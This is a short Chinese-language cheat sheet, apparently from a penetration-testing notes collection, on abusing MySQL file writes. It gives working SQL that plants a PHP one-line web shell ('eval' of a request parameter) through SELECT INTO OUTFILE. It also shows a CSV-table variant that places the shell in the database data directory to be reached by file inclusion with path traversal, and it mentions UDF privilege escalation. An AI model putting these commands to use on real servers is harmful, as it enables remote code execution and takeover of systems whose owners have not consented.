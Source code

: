 # mysql写文件

## 任意路径(outfile和dumpfile可用的情况下)

`select into` + 

- `outfile`可以写入多行，可输出终止符和换行格式，常用与脱库

- `dumpfile`只可写一行，并且输出中不存在任何格式，导入二进制文件不会因换行符导致文件被破坏，所以常用于写入软件 _udf提权_

### demo

```
  select "<?php eval($_REQUEST[8])?>" into outfile '../../../../php/a.php";
```

- `select 123 into outfile './1.txt'`

## 固定路径(低权限时方案)

> 利用mysql建表插入数据权限写入一句话木马，前提是等登录...爆破不出密码就尝试找其他文件上传漏洞吧

> 以下命令在mysql命令行环境中执行

### 查询数据库数据存储路径

```
select @@datadir
```

结果如：`D:\MySQL\data\`

### 选择数据库

- 查看数据库列表`select databases;`
- 选中有权限的数据库`use 数据库名`

### 创建表，将一句话木马作为字段名写入

```sql
create table if not exists `t`(`a` varchar(255) not null)engine=csv;
insert into t value('<?php eval($GET[8]);?>')
```

最后需要找到可控的引入点，将`D:\MySQL\data\数据库名\t.CSV`引入

绝对路径行不通的话可以尝试下相对路径`asdjfasdasdf/../../../../../../../../MySQL/data/数据库名/t.CSV`